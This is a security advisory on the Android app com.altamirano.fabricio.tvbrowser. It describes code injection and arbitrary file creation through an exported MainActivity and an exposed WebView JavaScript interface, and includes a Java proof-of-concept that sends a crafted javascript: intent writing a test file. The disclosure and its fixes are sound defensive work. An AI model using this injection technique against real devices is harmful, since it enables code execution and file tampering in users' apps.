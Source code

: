 

---

## Vulnerability Report: Code Injection (CWE-94) & Arbitrary File Creation

### Overview:

The `com.altamirano.fabricio.tvbrowser.MainActivity` activity is exported and can be invoked by third-party applications, exposing the app to potential attacks.

### Affected Component:
- **Component**: `com.altamirano.fabricio.tvbrowser.MainActivity`
- Ver 4.5.1 & earlier

### Code Injection Details:

A remote attacker can invoke the `MainActivity` of the `com.altamirano.fabricio.tvbrowser` app by sending an explicit intent. When a crafted URI sent via intent is subsequently passed to the WebView, JavaScript code can be executed within the app's context.

### Arbitrary File Creation via JavaScript Interface Exposure:

The `MainActivity`'s WebView exposes certain JavaScript interfaces which can lead to arbitrary file creation vulnerabilities.

**Proof of Concept (Code Injection):**

![image](https://github.com/actuator/com.altamirano.fabricio.tvbrowser/blob/main/TVBrowserDemo.gif)

```java
public void launchBrowser() {
    // Constructing the JavaScript code to directly invoke the exposed JavaScript interface method.
    String base64TestData = "VGhpcyBpcyBhIHRlc3QgZm9yIHRoZSB2dWxuZXJhYmlsaXR5IFBvQy4="; // Represents "This is a test for the vulnerability PoC."
    String jsCode = String.format("javascript:if(window.Android && typeof window.Android.getBase64FromBlobData === 'function'){ window.Android.getBase64FromBlobData('data:text/plain;base64,%s', 'test.txt'); }", base64TestData);

    Intent intent = new Intent(Intent.ACTION_VIEW);
    intent.setComponent(new ComponentName("com.altamirano.fabricio.tvbrowser", "com.altamirano.fabricio.tvbrowser.MainActivity"));
    intent.setData(Uri.parse(jsCode));
    startActivity(intent);
}
```

![TVBrowserDemo](https://github.com/actuator/com.altamirano.fabricio.tvbrowser/assets/78701239/5835748e-cd5a-4d06-bd95-d56d0700867f)

---


### Exploit Overview:
1. **Arbitrary Code Execution (ACE)**: Using the exported activity, an attacker can trigger the loading of malicious URLs, leading to code execution within the app's context.
2. **Arbitrary File Creation (AFC)**: Using the exposed JavaScript interfaces, an attacker can create or overwrite files in the Downloads folder.

Arbitrary File Creation (AFC) vulnerabilities pose serious risks, enabling malicious actors to potentially complicate digital forensics. 

### Recommendations Update:
1. **Assess Exported Activities**: Ensure activities are not unnecessarily exported. If they are, apply appropriate intent filters and permissions.
2. **Restrict JavaScript Interfaces**: If the WebView in your application supports JavaScript, ensure it doesn't expose sensitive functionality or data to the running JavaScript.


### References Update:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-73: External Control of File Name or Path](https://cwe.mitre.org/data/definitions/73.html)



---
